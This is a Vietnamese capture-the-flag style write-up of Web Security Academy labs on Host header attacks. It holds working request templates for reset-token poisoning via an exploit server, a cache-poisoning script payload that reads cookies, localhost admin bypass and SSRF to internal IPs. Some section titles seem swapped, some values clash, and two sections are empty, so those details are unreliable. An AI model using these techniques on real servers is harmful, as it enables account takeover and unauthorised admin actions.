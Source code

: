 # 1. Basic password reset poisoning
Dùng chức năng forgot password với tham số `username=wiener` rồi vào Email Client kiểm tra, thấy URL để reset password là `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=R9Qgu9I1N6a2aN3P3siCSAQoNtJkOu2k`.

Thử thay đổi header `Host: test.com` rồi gửi lại, thì kết quả URL reset trở thành `https://test.com/forgot-password?temp-forgot-password-token=1kbaGZSQ0CofoeyPFQKHXUasCLvaewHH`. Như vậy website cấu hình URL reset password sử dụng Host header. 

Ta thay đổi header `Host: exploit-0a08009d04bfdf7bc0a03a1a018100ea.exploit-server.net` và chỉnh tham số `username=carlos`. Sau khi submit, vào Access Log kiểm tra thì thấy có request gửi đến chứa một reset password token:
```
10.0.4.223      2023-03-06 02:02:50 +0000 "GET /forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.119 Safari/537.36"
```
Đó là reset token của user carlos. Ta truy cập `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO` rồi tiến hành đổi mật khẩu thành `hello`, sau đó đăng nhập với credentials `carlos:password`, kết quả thành công. 

# 2. Host header authentication bypass
Trong Home page có một đoạn tracking script:
```
<script type="text/javascript" src="//0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net/resources/js/tracking.js">
```
Ta thử thêm một duplicate Host header vào trong request sử dụng Burp Repeater:
```
GET / HTTP/1.1
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: test.com
```
Khi đó, domain name trong tracking script cũng trở thành `test.com`. Để ý rằng website có sử dụng cache, và khi ta thay đổi Host header thứ 2 thì cache vẫn trả về trạng thái "hit". Như vậy ta có thể exploit web cache poisoning như sau:

Gửi request `GET /` với header
```
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```
Submit đến khi response chứa tag script được lưu vào cache. Khi victim truy cập home page, lệnh alert sẽ được thực thi.

Như vậy, bài lab được giải thành công.

# 3. Web cache poisoning via ambiguous requests
Thử vào URL `/admin` thì thấy thông báo "Admin interface only available to local users". 

Bắt request sử dụng Burp Repeater. Khi thay đổi header `Host: localhost` thì ta vẫn có thể truy cập được website, đồng thời "Admin panel" được hiển thị. Từ đó, ta khám phá ra được để delete user carlos thì ta cần gửi request đến `/admin/delete?username=carlos`. Cấu hình request như sau:
```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
....
```
Sau khi submit, bài lab được giải.

# 4. Routing-based SSRF
Dùng Burp Repeater bắt request đến Home page. Thử thay đổi header `Host: j5pxkiye8gmuytdbybbned2em5svgk.oastify.com`, gửi request rồi vào Burp Collaborator Client kiểm tra thì thấy có request được gửi đến. Như vậy ta có thể thực thi SSRF bằng cách thay đổi Host header.

![image](https://user-images.githubusercontent.com/103978452/223042227-5c76ea65-137f-4f82-8738-bf0a0e154300.png)

Gửi request vào Burp Intruder, thực hiện bruteforce với giá trị của Host header từ 192.168.0.0 đến 192.168.0.255, ta thấy chỉ có thể truy cập được nếu giá trị là 192.268.0.113

![image](https://user-images.githubusercontent.com/103978452/223042476-33db1f5d-599b-40a4-ae33-4011c5535214.png)

Dùng Burp Repeater gửi lại request với header `Host: 192.168.0.113`, ta được chuyển hướng đến URL `/admin`. Dựa trên trang đó, ta biết rằng muốn xóa user carlos thì cần gửi POST request đến `/admin/delete`. Như vậy ta cấu hình một request như sau:

```
POST /admin/delete HTTP/1.1
Host: 192.168.0.113
Content-Type: application/x-www-form-urlencoded
....

csrf=5dcGh6aSE9TEu9v545rRAs7WunnUtpLj&username=carlos
```
Sau khi click submit, bài lab được giải.

# 5. SSRF via flawed request parsing

# 6. Host validation bypass via connection state attack
Sử dụng Burp Repeater để bắt request đến Home page. Nhận thấy khi thay đổi header `Host: 192.168.0.1` thì không có response được trả về. Tuy nhiên khi gửi request thông thường (Host header mặc định) trước rồi gửi request với header `Host: 192.168.0.1` thì kết quả lại thành công. Như vậy website đã reuse HTTP connection với Host header được coi là không đổi.

Như vậy, muốn exploit SSRF để truy cập `192.168.0.1` từ server, đầu tiên ta gửi một request với `Host: 0a2900030435075bc284bef4009d00f7.web-security-academy.net` sau đó sẽ gửi các request với header `Host: 192.168.0.1`.

Gửi request sau:
```
GET /admin HTTP/2
Host: 192.168.0.1
...
```
Phân tích response ta biết được để xóa user carlos cần thực hiện request `POST /admin/delete`. Đồng thời, ta cũng thu được csrfToken là `IclUFsBJ1at9lllg0E4Z4y1xd2sddB8k`.

Như vậy, ta cấu hình request sau:
```
POST /admin/delete HTTP/2
Host: 192.168.0.1
Content-Type: application/x-www-form-urlencoded
...

username=carlos&csrf=IclUFsBJ1at9lllg0E4Z4y1xd2sddB8k
```
Sau khi submit, bài lab được giải thành công.

# 7. Password reset poisoning via dangling markup
